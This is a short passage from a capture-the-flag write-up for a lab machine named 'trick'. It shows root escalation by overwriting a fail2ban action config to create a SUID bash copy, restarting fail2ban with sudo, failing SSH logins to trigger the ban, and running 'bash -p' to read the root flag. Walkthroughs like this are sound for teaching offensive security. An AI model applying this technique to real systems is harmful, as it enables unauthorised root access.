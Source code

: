Now with a command to cp /bin/bash then make it an SUID I can mv the new config file, restart the service, fail an ssh login 5 times, then become root.

```bash
michael@trick:/tmp/test$ mv iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.conf 
mv: replace '/etc/fail2ban/action.d/iptables-multiport.conf', overriding mode 0644 (rw-r--r--)? Y
michael@trick:/tmp/test$ sudo /etc/init.d/fail2ban restart
[ ok ] Restarting fail2ban (via systemctl): fail2ban.service.
```

```bash
michael@trick:/tmp/test$ ../bash -p
bash-5.0# cat /root/root.txt 
689924abb778fc------------------
```
